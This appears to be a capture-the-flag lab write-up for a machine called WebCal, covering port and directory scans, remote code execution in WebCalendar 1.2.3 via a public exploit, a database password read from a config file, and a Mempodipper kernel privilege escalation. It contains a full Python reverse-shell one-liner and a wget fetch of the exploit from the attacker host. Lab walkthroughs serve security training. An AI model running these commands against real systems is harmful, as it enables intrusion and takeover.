# WebCal

## Information Gathering

### Service Enumeration

`nmapAutomator.sh -H 192.168.66.37 -t full`



`nmapAutomator.sh -H 192.168.66.37 -t vulns`





### HTTP



`gobuster dir -u http://192.168.66.37/ -w /usr/share/dirb/wordlists/common.txt -k -x .txt,.php --threads 50`



* /resources
* /send
* /webcalendar

We find a login page at `http://192.168.66.37/webcalendar/login.php`.



The version is v1.2.3

## Exploit

WebCalendar &lt;= v1.2.4 suffers from an RCE vulnerability: [https://www.exploit-db.com/exploits/18775](https://www.exploit-db.com/exploits/18775)

Simply running the exploit above gives us RCE. `php 18775.php 192.168.66.37 /webcalendar/`



Once here, we can use a Python payload to catch a reverse shell on our Kali machine.

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.66",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`



On our Kali machine:





## Privilege Escalation

### MySQL

The `settings.php` file looks interesting.



Upon further inspection, the MySQL database credentials are in this file.



Furthermore, we now have access to port 3306, which is the MySQL port.



```text
www-data@ucal:/home$ mysql --user=wc --password 
Enter password: edjfbxMT7KKo2PPC
```




### Kernel Exploit

The kernel version 3.0.0 is vulnerable to an exploit called Mempodipper.



Compile: `gcc mempodipper.c -o mempodipper`

Transfer: `wget "192.168.49.66/mempodipper" -O mempodipper`





